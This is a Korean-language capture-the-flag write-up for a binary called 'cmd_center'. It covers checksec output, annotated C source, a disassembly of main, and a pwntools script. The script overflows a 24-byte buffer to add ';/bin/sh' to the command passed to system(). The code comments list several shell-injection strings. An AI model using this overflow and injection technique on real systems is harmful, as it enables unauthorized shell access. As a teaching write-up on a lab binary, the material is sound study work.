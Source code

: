 #명령어주입 #스택버퍼오버플로우 

### 1. 파일 정보

ile cmd_center    
cmd_center: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=70ae6cc4fb300421b00f0b740114454d4560cc87, not stripped

```
[*]
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Canary를 제외한 모든 보호기법이 최대한으로 켜져 있다.
### 2. C 소스파일 분석

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

// 표준 입력(stdin)과 출력(stdout)의 버퍼링을 끔.
void init() {
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main()
{
	/*
	cmd_ip : 256바이트 크기 문자열 버퍼. 기본값 "ifconfig"
	dummy : 그냥 더미 변수 (스택 정렬용)
	center_name : 24바이트 크기 버퍼
	*/
	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];

	init();

	/*
	read() 함수로 100바이트를 읽어서 center_name (24바이트)에 저장
	버퍼 오버플로우 발생 가능
	최대 24바이트까지만 안전, 나머지는 dummy 변수나 cmd_ip 영역을 덮어씀.
	*/
	printf("Center name: ");
	read(0, center_name, 100);

	/*
	strncmp(a, b, n)은 앞에서부터 최대 n바이트를 비교해서 같으면 0을 반환함.
	! 는 논리 부정 연산자이므로, 같을 때(0) -> 참(1)이 된다.
	즉, cmd_ip 가 앞 8바이트만 "ifconfig"와 같으면  조건을 통과하게 된다.
	"ifconfig"의 길이가 정확히 8이라서, 사실상 접두사(prefix)만 확인하는 셈이다.
	그래서 아래와 같은 값들도 전부 통과하게 된다
		"ifconfig -a", "ifconfig; /bin/sh", "ifconfig && id", "ifconfig | cat /flag"
	*/
	if( !strncmp(cmd_ip, "ifconfig", 8)) {
		system(cmd_ip);
	}

	else {
		printf("Something is wrong!\n");
	}
	exit(0);
}

```

cmd_ip 에는 256바이트가 할당되어 있고, "ifconfig\x00"문자열로 초기화되어 있다. center_name 에는 24바이트가 할당되어 있다.

read(0, center_name, 100) 으로 24바이트 공간보다 더 많은 입력을 받을 수 있는 환경이 주어져, 버퍼 오버플로우가 발생한다. 따라서 스택에 있는 다른 변수들 dummy, cmd_ip 등이나 스택 위의 주소를 덮을 가능성이 존재한다. 
디스어셈블하면서 정확히 어느 범위만큼 덮을 수 있는지 확인해 보자

strncmp(cmd_ip, "ifconfig", 8) 를 통해 기존 cmd_ip 에 저장되어 있는 "ifconfig"이 변조되지 않았는지 확인한다. 변조되지 않았을 경우에만 system(cmd_ip)를 실행한다.

### 3.  익스플로잇

#### 1) 익스플로잇
```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000000008ad <+0>: push   rbp
   0x00000000000008ae <+1>: mov    rbp,rsp
   0x00000000000008b1 <+4>: sub    rsp,0x130
   0x00000000000008b8 <+11>:    mov    rax,QWORD PTR fs:0x28
   0x00000000000008c1 <+20>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000000008c5 <+24>:    xor    eax,eax
   0x00000000000008c7 <+26>:    movabs rax,0x6769666e6f636669
   0x00000000000008d1 <+36>:    mov    edx,0x0
   0x00000000000008d6 <+41>:    mov    QWORD PTR [rbp-0x110],rax
   0x00000000000008dd <+48>:    mov    QWORD PTR [rbp-0x108],rdx
   0x00000000000008e4 <+55>:    lea    rdx,[rbp-0x100]
   0x00000000000008eb <+62>:    mov    eax,0x0
   0x00000000000008f0 <+67>:    mov    ecx,0x1e
   0x00000000000008f5 <+72>:    mov    rdi,rdx
   0x00000000000008f8 <+75>:    rep stos QWORD PTR es:[rdi],rax
   0x00000000000008fb <+78>:    mov    eax,0x0
   0x0000000000000900 <+83>:    call   0x86a <init>
   0x0000000000000905 <+88>:    lea    rdi,[rip+0xf8]        # 0xa04
   0x000000000000090c <+95>:    mov    eax,0x0
   0x0000000000000911 <+100>:   call   0x710 <printf@plt>
   0x0000000000000916 <+105>:   lea    rax,[rbp-0x130]
   0x000000000000091d <+112>:   mov    edx,0x64
   0x0000000000000922 <+117>:   mov    rsi,rax
   0x0000000000000925 <+120>:   mov    edi,0x0
   0x000000000000092a <+125>:   call   0x720 <read@plt>
   0x000000000000092f <+130>:   lea    rax,[rbp-0x110]
   0x0000000000000936 <+137>:   mov    edx,0x8
   0x000000000000093b <+142>:   lea    rsi,[rip+0xd0]        # 0xa12
   0x0000000000000942 <+149>:   mov    rdi,rax
   0x0000000000000945 <+152>:   call   0x6e0 <strncmp@plt>
   0x000000000000094a <+157>:   test   eax,eax
   0x000000000000094c <+159>:   jne    0x95f <main+178>
   0x000000000000094e <+161>:   lea    rax,[rbp-0x110]
   0x0000000000000955 <+168>:   mov    rdi,rax
   0x0000000000000958 <+171>:   call   0x700 <system@plt>
   0x000000000000095d <+176>:   jmp    0x96b <main+190>
   0x000000000000095f <+178>:   lea    rdi,[rip+0xb5]        # 0xa1b
   0x0000000000000966 <+185>:   call   0x6f0 <puts@plt>
   0x000000000000096b <+190>:   mov    edi,0x0
   0x0000000000000970 <+195>:   call   0x740 <exit@plt>
End of assembler dump.
```

어셈블리를 확인해 보면 cmd_ip 는 [rbp-0x110] 의 위치에 있고, cmd_center 은 [rbp-0x130]의 위치에 있다.
따라서 cmd_center에 최대 100바이트를 입력 함으로써 생기는 버퍼 오버플로우는 cmd_ip 를 100 - 0x20 = 68바이트마큰 더 덮을 수 있다.
이는 main의 SFP 나 RET 를 조작할 만큼의 길지는 않기 때문에 com_ip를 어떤 식으로 변경하여야 원하는 명령을 실행 할 수 있을지 생각해 봐야 한다.

``` c
    if( !strncmp(cmd_ip, "ifconfig", 8)) {
        system(cmd_ip);
    }
```

strncmp(cmd_ip, "ifconfig", 8) 함수는 두 문자열을 비교하되, 정확히 8바이트 만큼만을 비교한다는 것이다. 따라서 제약 조건은 cmd_ip의 첫 8바이트만 "ifconfig"와 일치하면 된다는 것이다..

셸의 메타 캐릭터를 이용해서 더 많은 명령을 실행할 수 있다는 것을 알고 있으면 쉽게 해결할 수 있다.
```
ifconfig;/bin/sh
```

#### 2) 페이로드
``` python
from pwn import *

p = process("./cmd_center")

payload = b"A" * 0x20 + b"ifconfig" + b";/bin/sh"

p.send(payload)

p.interactive()

```
